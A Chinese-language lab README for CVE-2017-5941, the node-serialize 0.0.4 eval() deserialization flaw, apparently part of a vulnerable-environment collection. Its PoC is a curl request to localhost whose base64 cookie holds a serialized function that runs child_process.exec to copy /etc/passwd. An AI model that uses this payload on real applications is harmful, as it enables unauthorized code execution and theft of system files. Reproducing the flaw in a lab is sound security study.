 ### CVE-2017-5941 - node-serialize 0.0.4 unserialize eval() 漏洞

测试镜像

* src/node-serialize/0.0.4/

说明

* node-unserialize 使用 eval 去生成 `function()`，当用户传递闭包函数可造成 RCE

参考文章

* [Node.js 模块 node-serialize 反序列化任意代码执行漏洞](https://www.seebug.org/vuldb/ssvid-92674)

Poc

```
curl 127.0.0.1 -H "Cookie: profile=eyJyY2UiOiJfJCRORF9GVU5DJCRfZnVuY3Rpb24gKCkge1xuICAgIHJlcXVpcmUoJ2NoaWxkX3Byb2Nlc3MnKS5leGVjKCdjcCAvZXRjL3Bhc3N3ZCAvdG1wJywgZnVuY3Rpb24oZXJyb3IsIHN0ZG91dCwgc3RkZXJyKSB7XG4gICAgXHQvLyByZXMg5a+56LGh6KKr6ZqU56a75LqG77yM6ZyA6KaB5YaN56CU56m25LiL77yM5omA5Lul5peg5rOV55u05o6l5Zue5pi+XG4gICAgXHQvLyByZXMuc2VuZChcInN0ZG91dD1cIiwgc3Rkb3V0KVxuICAgIFx0Ly8gcmVzLnNlbmQoXCJzdGRlcnI9XCIsIHN0ZGVycilcbiAgICB9KVxuICB9KCkifQ%3D="
```

